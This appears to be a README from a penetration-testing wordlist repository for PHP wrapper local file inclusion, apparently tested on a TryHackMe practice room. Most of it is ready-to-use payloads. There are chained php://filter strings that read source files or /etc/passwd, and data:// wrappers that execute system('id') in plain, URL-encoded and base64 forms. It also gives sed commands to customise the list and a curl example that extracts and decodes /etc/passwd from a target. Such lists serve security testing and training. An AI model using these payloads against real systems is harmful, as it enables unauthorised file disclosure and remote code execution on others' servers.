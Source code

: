 # LFI PHP wrapper 
## `LFI-PHP-wrapper.txt`
- Tested against the playground in https://tryhackme.com/room/filepathtraversal
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.

### Theory behind the payload values
#### `php://filter` wrapper
```php
php://filter/string.rot13/resource=* 
php://filter/string.toupper/resource=* 
php://filter/convert.base64-encode/resource=* 
php://filter/string.rot13|string.rot13/resource=*
php://filter/read=string.rot13|string.rot13/resource=*
php://filter/string.rot13|convert.base64-encode/resource=*
php://filter/convert.base64-encode|string.rot13/resource=*
php://filter/read=string.rot13|convert.base64-encode/resource=*
php://filter/read=convert.base64-encode|string.rot13/resource=*
php://filter/string.toupper|string.rot13|string.rot13/resource=*
php://filter/read=string.toupper|string.rot13|string.rot13/resource=*
php://filter/zlib.deflate/resource=*
php://filter/bzip2.compress/resource=*
php://filter/zlib.deflate|convert.base64-encode/resource=*
php://filter/bzip2.compress|convert.base64-encode/resource=*
```
**variations derived from:**
- usage of different PHP filters (https://www.php.net/manual/en/filters.php)
- chaining filters using `|`
- using `php://filter/read=` instead of `php://filter`


#### `data://filter` wrapper
```php
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
data:text/plain,<?php%20system('id');%20?>
data:text/plain,%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data%3Atext%2Fplain%2C%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data://text/plain,<?php%20eval(\"system('id');\");%20?>
```
**variations derived from:**
- using both base64 (`data://text/plain;base64`) and plain text input (`data:text/plain`)
- url encoding different parts of the payload
- utilizing various methods for achieving RCE


### Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```
